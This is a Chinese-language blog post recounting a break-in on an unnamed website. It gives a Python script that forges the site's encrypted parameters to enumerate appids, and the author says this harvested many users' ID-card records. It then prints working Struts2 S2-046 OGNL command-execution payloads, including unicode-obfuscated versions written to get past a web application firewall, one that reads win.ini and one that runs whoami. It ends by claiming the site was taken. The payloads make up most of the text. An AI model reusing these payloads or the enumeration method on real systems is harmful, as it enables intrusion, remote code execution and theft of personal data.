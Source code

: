 ```yaml
---
layout: post
title: struts2 绕过记录
date: 2020-09-28
category: webmember
---
```

# 记一次struts2 代码执行漏洞waf绕过

* 工作拿到一个网站www.xxxx.com,网站由于特殊性，参数都是进行加密处理。比如一个数据包会将所有参数的值按照不同规则拼接然后
进行md5加密，渗透入侵这种网站很难，无法修改参数，需要写解密程序，在进行一些功能探索后，发现了一个漏洞点。在申请后有一个下载身份功能，然后我通过编写参数解密程序遍历了appid，获取到了大量用户的身份证数据
参数解密代码为
```
with open('8.txt', 'r') as f:
    for i, name in enumerate(f.readlines()):
        ss = "xxxxxxxx".format(name.strip("\n"))
        new_ss = base64.b64encode(ss.encode('utf-8'))
        newss = "xxxxxxx"+str(new_ss,
                    'utf-8')
        # print(newss)
        m = hashlib.md5()
        m.update(newss.encode("utf8"))
        basestring = "xxxxxxxxxxxxx".format(
            ios=str(new_ss, 'utf-8'), sign=m.hexdigest().upper())
        with open("99.txt", 'a') as a:
            a.write(basestring + "\n")
```
由此遍历出所有存在的appid
* 转折点，通过访问/upload.do 发现了直接500错误
```
    at com.opensymphony.xwork2.interceptor.MethodFilterInterceptor.intercept(MethodFilterInterceptor.java:98)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at com.opensymphony.xwork2.interceptor.ConversionErrorInterceptor.intercept(ConversionErrorInterceptor.java:138)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at com.opensymphony.xwork2.interceptor.ParametersInterceptor.doIntercept(ParametersInterceptor.java:254)
    at com.opensymphony.xwork2.interceptor.MethodFilterInterceptor.intercept(MethodFilterInterceptor.java:98)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at com.opensymphony.xwork2.interceptor.ParametersInterceptor.doIntercept(ParametersInterceptor.java:254)
    at com.opensymphony.xwork2.interceptor.MethodFilterInterceptor.intercept(MethodFilterInterceptor.java:98)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at com.opensymphony.xwork2.interceptor.StaticParametersInterceptor.intercept(StaticParametersInterceptor.java:191)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at org.apache.struts2.interceptor.MultiselectInterceptor.intercept(MultiselectInterceptor.java:73)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at org.apache.struts2.interceptor.CheckboxInterceptor.intercept(CheckboxInterceptor.java:91)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at org.apache.struts2.interceptor.FileUploadInterceptor.intercept(FileUploadInterceptor.java:252)
```
发现存在strut2框架 于是我使用工具去跑 无果 因为有waf 然后通过一些简单的payload 发现了存在struts2-046漏洞 poc如下
```
%{(#sasxke='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#context.setMemberAccess(#dm)))).(#o=@org.apache.struts2.ServletActionContext@getResponse().getWriter()).(#o.println('['+'tttpppppp'+'111]')).(#o.close())}"]
```
但是使用部分cmd exp 无法成功
```
%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='cmd /c dir').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"]
```
还是无法绕过waf 之后通过java特新 unicode编码执行代码 exp
```
%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):(\u0028\u0023\u0063\u006f\u006e\u0074\u0061\u0069\u006e\u0065\u0072\u003d\u0023\u0063\u006f\u006e\u0074\u0065\u0078\u0074\u005b\u0027\u0063\u006f\u006d\u002e\u006f\u0070\u0065\u006e\u0073\u0079\u006d\u0070\u0068\u006f\u006e\u0079\u002e\u0078\u0077\u006f\u0072\u006b\u0032\u002e\u0041\u0063\u0074\u0069\u006f\u006e\u0043\u006f\u006e\u0074\u0065\u0078\u0074\u002e\u0063\u006f\u006e\u0074\u0061\u0069\u006e\u0065\u0072\u0027\u005d\u0029\u002e\u0028\u0023\u006f\u0067\u006e\u006c\u0055\u0074\u0069\u006c\u003d\u0023\u0063\u006f\u006e\u0074\u0061\u0069\u006e\u0065\u0072\u002e\u0067\u0065\u0074\u0049\u006e\u0073\u0074\u0061\u006e\u0063\u0065\u0028\u0040\u0063\u006f\u006d\u002e\u006f\u0070\u0065\u006e\u0073\u0079\u006d\u0070\u0068\u006f\u006e\u0079\u002e\u0078\u0077\u006f\u0072\u006b\u0032\u002e\u006f\u0067\u006e\u006c\u002e\u004f\u0067\u006e\u006c\u0055\u0074\u0069\u006c\u0040\u0063\u006c\u0061\u0073\u0073\u0029\u0029\u002e\u0028\u0023\u006f\u0067\u006e\u006c\u0055\u0074\u0069\u006c\u002e\u0067\u0065\u0074\u0045\u0078\u0063\u006c\u0075\u0064\u0065\u0064\u0050\u0061\u0063\u006b\u0061\u0067\u0065\u004e\u0061\u006d\u0065\u0073\u0028\u0029\u002e\u0063\u006c\u0065\u0061\u0072\u0028\u0029\u0029\u002e\u0028\u0023\u006f\u0067\u006e\u006c\u0055\u0074\u0069\u006c\u002e\u0067\u0065\u0074\u0045\u0078\u0063\u006c\u0075\u0064\u0065\u0064\u0043\u006c\u0061\u0073\u0073\u0065\u0073\u0028\u0029\u002e\u0063\u006c\u0065\u0061\u0072\u0028\u0029\u0029\u002e\u0028\u0023\u0063\u006f\u006e\u0074\u0065\u0078\u0074\u002e\u0073\u0065\u0074\u004d\u0065\u006d\u0062\u0065\u0072\u0041\u0063\u0063\u0065\u0073\u0073\u0028\u0023\u0064\u006d\u0029\u0029\u0029\u0029\u002e\u0028\u0023\u0063\u006d\u0064\u003d\u0027\u0073\u0079\u0073\u0074\u0065\u006d\u0069\u006e\u0066\u006f\u0027\u0029\u002e\u0028\u0023\u0069\u0073\u0077\u0069\u006e\u003d\u0028\u0040\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0053\u0079\u0073\u0074\u0065\u006d\u0040\u0067\u0065\u0074\u0050\u0072\u006f\u0070\u0065\u0072\u0074\u0079\u0028\u0027\u006f\u0073\u002e\u006e\u0061\u006d\u0065\u0027\u0029\u002e\u0074\u006f\u004c\u006f\u0077\u0065\u0072\u0043\u0061\u0073\u0065\u0028\u0029\u002e\u0063\u006f\u006e\u0074\u0061\u0069\u006e\u0073\u0028\u0027\u0077\u0069\u006e\u0027\u0029\u0029\u0029\u002e\u0028\u0023\u0063\u006d\u0064\u0073\u003d\u0028\u0023\u0069\u0073\u0077\u0069\u006e\u003f\u007b\u0027\u0063\u006d\u0064\u002e\u0065\u0078\u0065\u0027\u002c\u0027\u002f\u0063\u0027\u002c\u0023\u0063\u006d\u0064\u007d\u003a\u007b\u0027\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068\u0027\u002c\u0027\u002d\u0063\u0027\u002c\u0023\u0063\u006d\u0064\u007d\u0029\u0029\u002e\u0028\u0023\u0070\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0050\u0072\u006f\u0063\u0065\u0073\u0073\u0042\u0075\u0069\u006c\u0064\u0065\u0072\u0028\u0023\u0063\u006d\u0064\u0073\u0029\u0029\u002e\u0028\u0023\u0070\u002e\u0072\u0065\u0064\u0069\u0072\u0065\u0063\u0074\u0045\u0072\u0072\u006f\u0072\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u0074\u0072\u0075\u0065\u0029\u0029\u002e\u0028\u0023\u0070\u0072\u006f\u0063\u0065\u0073\u0073\u003d\u0023\u0070\u002e\u0073\u0074\u0061\u0072\u0074\u0028\u0029\u0029\u002e\u0028\u0023\u0072\u006f\u0073\u003d\u0028\u0040\u006f\u0072\u0067\u002e\u0061\u0070\u0061\u0063\u0068\u0065\u002e\u0073\u0074\u0072\u0075\u0074\u0073\u0032\u002e\u0053\u0065\u0072\u0076\u006c\u0065\u0074\u0041\u0063\u0074\u0069\u006f\u006e\u0043\u006f\u006e\u0074\u0065\u0078\u0074\u0040\u0067\u0065\u0074\u0052\u0065\u0073\u0070\u006f\u006e\u0073\u0065\u0028\u0029\u002e\u0067\u0065\u0074\u004f\u0075\u0074\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u0029\u0029\u0029\u002e\u0028\u0040\u006f\u0072\u0067\u002e\u0061\u0070\u0061\u0063\u0068\u0065\u002e\u0063\u006f\u006d\u006d\u006f\u006e\u0073\u002e\u0069\u006f\u002e\u0049\u004f\u0055\u0074\u0069\u006c\u0073\u0040\u0063\u006f\u0070\u0079\u0028\u0023\u0070\u0072\u006f\u0063\u0065\u0073\u0073\u002e\u0067\u0065\u0074\u0049\u006e\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u0029\u002c\u0023\u0072\u006f\u0073\u0029\u0029\u002e\u0028\u0023\u0072\u006f\u0073\u002e\u0066\u006c\u0075\u0073\u0068\u0028\u0029)}"]
```


redirect:%24%7B\u0023\u0062\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u0069\u006f\u002e\u0046\u0069\u006c\u0065\u0049\u006e\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0053\u0074\u0072\u0069\u006e\u0067\u0028\u0027\u0063\u003a\u002f\u0077\u0069\u006e\u0064\u006f\u0077\u0073\u002f\u0077\u0069\u006e\u002e\u0069\u006e\u0069\u0027\u0029\u0029\u002c\u0023\u0063\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u0069\u006f\u002e\u0049\u006e\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0052\u0065\u0061\u0064\u0065\u0072\u0028\u0023\u0062\u0029\u002c\u0023\u0064\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u0069\u006f\u002e\u0042\u0075\u0066\u0066\u0065\u0072\u0065\u0064\u0052\u0065\u0061\u0064\u0065\u0072\u0028\u0023\u0063\u0029\u002c\u0023\u0065\u003d\u006e\u0065\u0077\u0020\u0063\u0068\u0061\u0072\u005b\u0035\u0030\u0030\u0030\u0030\u005d\u002c\u0023\u0064\u002e\u0072\u0065\u0061\u0064\u0028\u0023\u0065\u0029\u002c\u0023\u006d\u0061\u0074\u0074\u003d\u0023\u0063\u006f\u006e\u0074\u0065\u0078\u0074\u002e\u0067\u0065\u0074\u0028\u0027\u0063\u006f\u006d\u002e\u006f\u0070\u0065\u006e\u0073\u0079\u006d\u0070\u0068\u006f\u006e\u0079\u002e\u0078\u0077\u006f\u0072\u006b\u0032\u002e\u0064\u0069\u0073\u0070\u0061\u0074\u0063\u0068\u0065\u0072\u002e\u0048\u0074\u0074\u0070\u0053\u0065\u0072\u0076\u006c\u0065\u0074\u0052\u0065\u0073\u0070\u006f\u006e\u0073\u0065\u0027\u0029\u002c\u0023\u006d\u0061\u0074\u0074\u002e\u0067\u0065\u0074\u0057\u0072\u0069\u0074\u0065\u0072\u0028\u0029\u002e\u0070\u0072\u0069\u006e\u0074\u006c\u006e\u0028\u0023\u0065\u0029%7d




cmd.exe -c whoami
redirect:%24%7B\u0023\u0072\u0065\u0073\u0070\u003d\u0023\u0063\u006f\u006e\u0074\u0065\u0078\u0074\u002e\u0067\u0065\u0074\u0028\u0027\u0063\u006f\u006d\u002e\u006f\u0070\u0065\u006e\u0073\u0079\u006d\u0070\u0068\u006f\u006e\u0079\u002e\u0078\u0077\u006f\u0072\u006b\u0032\u002e\u0064\u0069\u0073\u0070\u0061\u0074\u0063\u0068\u0065\u0072\u002e\u0048\u0074\u0074\u0070\u0053\u0065\u0072\u0076\u006c\u0065\u0074\u0052\u0065\u0073\u0070\u006f\u006e\u0073\u0065\u0027\u0029\u002c\u0023\u0072\u0065\u0071\u003d\u0023\u0063\u006f\u006e\u0074\u0065\u0078\u0074\u002e\u0067\u0065\u0074\u0028\u0027\u0063\u006f\u006d\u002e\u006f\u0070\u0065\u006e\u0073\u0079\u006d\u0070\u0068\u006f\u006e\u0079\u002e\u0078\u0077\u006f\u0072\u006b\u0032\u002e\u0064\u0069\u0073\u0070\u0061\u0074\u0063\u0068\u0065\u0072\u002e\u0048\u0074\u0074\u0070\u0053\u0065\u0072\u0076\u006c\u0065\u0074\u0052\u0065\u0071\u0075\u0065\u0073\u0074\u0027\u0029\u002c\u0023\u0061\u003d\u0028\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0050\u0072\u006f\u0063\u0065\u0073\u0073\u0042\u0075\u0069\u006c\u0064\u0065\u0072\u0028\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0053\u0074\u0072\u0069\u006e\u0067\u005b\u005d\u007b\u0027\u0063\u006d\u0064\u002e\u0065\u0078\u0065\u0027\u002c\u0027\u002f\u0063\u0027\u002c\u0027\u0077\u0068\u006f\u0061\u006d\u0069\u0027\u007d\u0029\u0029\u002e\u0073\u0074\u0061\u0072\u0074\u0028\u0029\u002c\u0023\u0062\u003d\u0023\u0061\u002e\u0067\u0065\u0074\u0049\u006e\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u0029\u002c\u0023\u0064\u0069\u0073\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u0069\u006f\u002e\u0044\u0061\u0074\u0061\u0049\u006e\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u0023\u0062\u0029\u002c\u0023\u0062\u0075\u0066\u003d\u006e\u0065\u0077\u0020\u0062\u0079\u0074\u0065\u005b\u0032\u0030\u0030\u0030\u0030\u005d\u002c\u0023\u0064\u0069\u0073\u002e\u0072\u0065\u0061\u0064\u0028\u0023\u0062\u0075\u0066\u0029\u002c\u0023\u006d\u0073\u0067\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0053\u0074\u0072\u0069\u006e\u0067\u0028\u0023\u0062\u0075\u0066\u0029\u002c\u0023\u0064\u0069\u0073\u002e\u0063\u006c\u006f\u0073\u0065\u0028\u0029\u002c\u0023\u0072\u0065\u0073\u0070\u002e\u0067\u0065\u0074\u0057\u0072\u0069\u0074\u0065\u0072\u0028\u0029\u002e\u0070\u0072\u0069\u006e\u0074\u006c\u006e\u0028\u0023\u006d\u0073\u0067\u002e\u0074\u0072\u0069\u006d\u0028\u0029\u0029\u002c\u0023\u0072\u0065\u0073\u0070\u002e\u0067\u0065\u0074\u0057\u0072\u0069\u0074\u0065\u0072\u0028\u0029\u002e\u0066\u006c\u0075\u0073\u0068\u0028\u0029\u002c\u0023\u0072\u0065\u0073\u0070\u002e\u0067\u0065\u0074\u0057\u0072\u0069\u0074\u0065\u0072\u0028\u0029\u002e\u0063\u006c\u006f\u0073\u0065\u0028\u0029%7D


成功拿下网站 
![struts]({{"/assert/image/struts.jpg"}})

## 总结
* 遇到这种网站如果无法解密加密方式 无法对网站进行渗透
* 通过其他途径入侵web系统 如报错中的使用的漏洞框架
* 针对java的waf绕过方式的总结
